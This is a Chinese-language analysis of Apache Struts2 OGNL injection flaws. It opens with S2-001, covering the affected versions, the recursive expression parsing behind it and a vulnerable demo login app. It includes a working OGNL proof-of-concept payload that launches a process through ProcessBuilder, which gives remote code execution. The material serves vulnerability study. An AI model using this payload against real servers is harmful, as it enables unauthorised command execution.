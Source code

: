 - Struts2从 **S2-005** 增加自定义的 `SecurityMemberAccess` ，可以设置是否允许调用静态方法等；
-  `com.opensymphony.xwork2.interceptor.ParametersInterceptor#doIntercept(ActionInvocation)` 中，在 `setParameters()` 之前，会设置 `denyMethodExecution` 为true，但是 `setParameters()` 之后，会设置 `denyMethodExecution` 为false。也就是在 `setParameters()` 之后，再使用Ognl解析表达式就允许执行方法；

## S2-001

影响版本：Struts 2.0.0 - Struts 2.0.8

CVE编号：none

POC如下：

```java
%{(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()}
```

这个漏洞，归根结底就是Ognl表达式递归解析漏洞，使用Ognl解析得到的值，再次作为Ognl表达式进行进行解析。由于攻击者可以控制Ognl表达式的值为恶意的Ognl表达式，由此造成RCE。下面将通过案例进行详细分析。

struts.xml配置如下：

```xml
<package name="S2-001" extends="struts-default">
   <action name="login" class="com.demo.action.LoginAction">
      <result name="success">/welcome.jsp</result>
      <result name="error">/index.jsp</result>
   </action>
</package>
```

`com.demo.action.LoginAction` 关键代码如下：

```java
public String execute() throws Exception {
    if (!this.username.isEmpty() && !this.password.isEmpty()) {
        return this.username.equalsIgnoreCase("admin") && this.password.equals("admin") ? "success" : "error";
    } else {
        return "error";
    }
}
```

error对应的 `index.jsp` 关键代码如下：

```html
<s:form action="login">
   <s:textfield name="username" label="username" />
   <s:textfield name="password" label="password" />
   <s:submit></s:submit>
</s:form>
```

可以看到，jsp中使用了struts2定义的标签 `textfield` ，我们可以在 `struts2-core-2.0.8.jar!\META-INF\struts-tags.tld` 中看到这个标签的定义：

```xml
<name>textfield</name>
<tag-class>org.apache.struts2.views.jsp.ui.TextFieldTag</tag-class>
```
